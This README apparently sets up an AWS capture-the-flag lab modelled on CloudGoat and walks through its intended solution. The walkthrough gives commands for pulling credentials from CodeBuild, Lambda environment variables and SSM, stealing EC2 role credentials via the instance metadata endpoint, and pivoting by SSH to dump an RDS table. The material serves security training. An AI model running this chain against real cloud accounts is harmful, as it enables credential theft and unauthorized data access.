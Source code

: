 # buildabear

Inspired/modified from the [cloudgoat codebuild_secrets scenario](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/codebuild_secrets)

- bear-whisper gets IAM for cicd from codebuild
- cicd can get SSM parameters, list lambdas, and list EC2 instances
- SSM has SSH keys for EC2 instance
- lambda has RDS credentials as env vars but not connection info
- EC2 instance has role allowing to list dbs and can connect to RDS

## Scenario Resources

1 CodeBuild Project

1 Lambda function

1 VPC with:
  * RDS x 1
  * EC2 x 2

2 IAM Users

## Setup

Run `./keygen.sh` to create an RSA key at `assets/ctf-key`

Create an AWS account and configure credentials for the profile specified by the terraform variable `profile`

Deploy the terraform resources

## Scenario Start(s)

IAM User "bear-whisperer"

## Scenario Goal(s)

A secret string stored in a secure RDS database.

## Walkthrough

Get IAM for cicd

``` shell
export AWS_PROFILE=bear
aws configure

aws codebuild list-projects
aws codebuild batch-get-projects --names <project>

export AWS_PROFILE=cicd
aws configure
```

Get RDS connection info from lambda - this will have credentials, but not the host

``` shell
aws lambda list-functions | jq '.Functions[].Environment.Variables'
```

Get SSH info and connect to the EC2 host, then get its IAM credentials

``` shell
aws ssm describe-parameters
aws ssm get-parameter --name <private key name> | jq '.Parameter.Value' -r > ec2_key
chmod 600 ec2_key
aws ssm get-parameter --name <public key name> | jq '.Parameter.Value' -r > ec2_key.pub
aws ssm get-parameter --name <user name> | jq '.Parameter.Value'
aws ec2 describe-instances | jq '.Reservations[].Instances[].PublicIpAddress' -r

ssh -i ec2_key <username>@<ip>
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>
```

With the new credentials, get the DB address (needs to be done locally since the instance doesn't have the awscli).
Port forward through the EC2 instance to access RDS

``` shell
# aws_session_token must be set in addition to the key and secret
aws rds describe-db-instances --profile stolen-ec2-iam | jq '.DBInstances[].Endpoint.Address' -r
```

Then port forward through  the EC2 instance:

`ssh -i ec2_key <username>@<ip> -L 5432:<rds db host>:5432`

And connect to RDS:

`psql postgresql://secureadmin:<password>@localhost/securedb`

``` sql
\d
select * from sensitive_information;
```
